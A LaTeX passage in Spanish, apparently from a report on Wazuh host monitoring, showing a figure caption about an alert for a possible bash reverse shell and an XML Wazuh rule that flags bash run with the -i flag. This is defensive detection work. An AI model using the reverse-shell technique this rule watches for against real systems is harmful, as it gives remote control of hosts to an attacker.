  
\includegraphics[width=\textwidth]{imagenes/reverse_detected.png}
  \caption{En la primera se visualiza la detección de comandos ejecutados por Wazuh a partir de logs de audit. En la segunda imagen, se ve el detalle de una alerta generada por la posibilidad de generación de un shell reverso usando bash con el flag $-i$. Se puede apreciar que Wazuh ha recogido el usuario activo (uid), que era el root y el directorio dónde se ha ejecutado (cwd), además del \textit{path} completo del comando ejecutado y sus argumentos.}
   \label{vulnerabilities}
\end{figure}


Usando la regla definida con el código XML de la tabla \ref{detect_rshell} podemos generar una alerta como la que se aprecia en la figura 

\begin{lstlisting}[language=php,caption={Regla para detección de reverse shells.}, label=detect_rshell]
<rule id="100110" level="6">
        <if_sid>80792</if_sid>
        <field name="audit.command">bash</field>
    <field name="audit.execve.a1">-i</field>
    <description>Bash executed in interactive mode. Possible attempt to run a reverse shell on the system.</description>
    <group>audit_command,</group>
</rule>

\end{lstlisting}

